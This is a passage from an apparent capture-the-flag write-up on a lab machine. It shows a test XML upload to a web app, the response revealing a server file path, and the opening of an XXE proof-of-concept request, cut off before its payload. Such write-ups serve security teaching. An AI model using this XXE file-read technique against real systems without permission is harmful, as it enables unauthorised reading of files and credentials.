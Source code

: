 Submit this file:



    <entry>
    <Author>0xdf</Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </entry>



And get this response:



    HTTP/1.1 200 OK
    Server: gunicorn/19.7.1
    Date: Mon, 04 Jun 2018 19:17:00 GMT
    Connection: close
    Content-Type: text.md; charset=utf-8
    Content-Length: 163

     PROCESSED BLOGPOST:
      Author: 0xdf
     Subject: Testing
     Content: This is a test
     URL for later reference: /uploads/0xdf.xml
     File path: /home/roosa/deploy/src



Further more, the file is where they say it is:



    root@kali# curl http://10.10.10.91:5000/uploads/0xdf.xml
    <item>
    <Author>0xdf</Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>



### XXE POC

With that understanding of how to interact with the site, I'll start
looking for an XXE attack. Since the xml is displayed back to me, I can
use a direct method, reading a file into an entity, and then calling it:



    POST /upload HTTP/1.1
    Host: 10.10.10.91:5000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.91:5000/upload
    Content-Type: multipart/form-data; boundary=---------------------------1864243787215350191713873567
    Content-Length: 465
    Connection: close
    Upgrade-Insecure-Requests: 1
